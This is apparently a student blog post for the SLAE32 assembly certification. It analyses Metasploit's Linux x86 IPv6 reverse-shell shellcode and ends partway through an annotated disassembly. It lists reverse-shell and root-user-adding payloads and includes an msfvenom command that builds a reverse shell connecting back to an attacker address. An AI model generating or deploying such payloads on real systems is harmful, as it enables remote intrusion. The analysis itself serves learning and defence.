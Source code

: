 Title: SLAE32 - Assignment 5.4
Date: 2022-06-04T10:50:06.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=3">https://www.pentesteracademy.com/course?id=3</a></p><p>Student ID: PA-30398</p><h2 id="source-code">Source code</h2><p>The full source code is stored inside the repository created for this Exam: <a href="https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/5/part/3">rbctee/SlaeExam</a>.</p><p>List of files:</p><ul><li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/5/part/3/mimick_shellcode.c">mimick_shellcode.c</a>, a C program that I've written to imitate the instructions ran by the shellcode</li><li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/5/part/3/run_shellcode.c">run_shellcode.c</a>, a C program that runs the shellcode analysed in this post</li></ul><h2 id="analysis">Analysis</h2><p>I chose the following 4 shellcode samples:</p><table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x86/adduser</td>
<td>Create a new user with UID 0</td>
</tr>
<tr>
<td>linux/x86/shell/reverse_nonx_tcp</td>
<td>Spawn a command shell (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x86/shell_find_tag</td>
<td>Spawn a shell on an established connection (proxy/nat safe)</td>
</tr>
<tr>
<td>linux/x86/shell_reverse_tcp_ipv6</td>
<td>Connect back to attacker and spawn a command shell over IPv6</td>
</tr>
</tbody>
</table><p>In this post I'll analyse <code>linux/x86/shell_reverse_tcp_ipv6</code>.</p><h3 id="ndisasm">NDISASM</h3><p>To generate the payload:</p><pre><code class="language-bash">msfvenom -p linux/x86/shell_reverse_tcp_ipv6 LHOST=fe80::250:56ff:fe22:364b LPORT=4444 -o shellcode.bin
</code></pre><p>To analyze it with <code>ndisasm</code>:</p><pre><code class="language-bash">ndisasm shellcode.bin -b 32 -p intel
</code></pre><p>It returns the following output (comments are mine though):</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; EDX:EAX = EBX * 0
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
</code></pre><figcaption>Useful for polymorphism: besides <code>EBX</code>, they clear <code>EAX</code> and <code>EDX</code> too</figcaption></figure><pre><code class="language-nasm">                            ; IPPROTO_TCP
00000004  6A06              push byte +0x6
